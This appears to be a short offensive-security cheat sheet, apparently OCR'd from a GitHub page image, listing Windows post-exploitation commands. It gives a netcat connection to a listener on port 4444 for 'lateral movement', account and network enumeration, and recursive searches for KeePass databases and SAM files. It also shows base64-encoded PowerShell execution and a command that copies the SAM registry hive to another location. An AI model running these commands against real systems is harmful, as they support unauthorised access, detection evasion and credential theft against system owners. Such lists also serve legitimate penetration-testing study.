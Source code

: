 ## Attempt Lateral Movement:

- `nc 192.168.50.220 4444`

## Local Account Enumeration:

- `whoami`
- `whoami /groups`
- `Get-LocalUser`
- `Get-LocalUser -Name "username" | Select-Object \*`
- `Get-LocalGroup`
- `Get-LocalGroupMember Administrators`
- `systeminfo`
- `ipconfig /all`
- `route print`
- `netstat -ano`

## Get Installed Applications:

### 32 Bit:

- `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

###64 Bit:

- `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

- `Get-Process`

- `Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue`

- `Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue`

- `Get-ChildItem -Path C:\ -Include _.txt,_.ini -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "YourSearchString"`

`$command = "Get-Process"`
`$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
`$encodedCommand = [Convert]::ToBase64String($bytes)`
`powershell.exe -EncodedCommand $encodedCommand`

`Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination "C:\Path\To\NewLocation\SAM"`
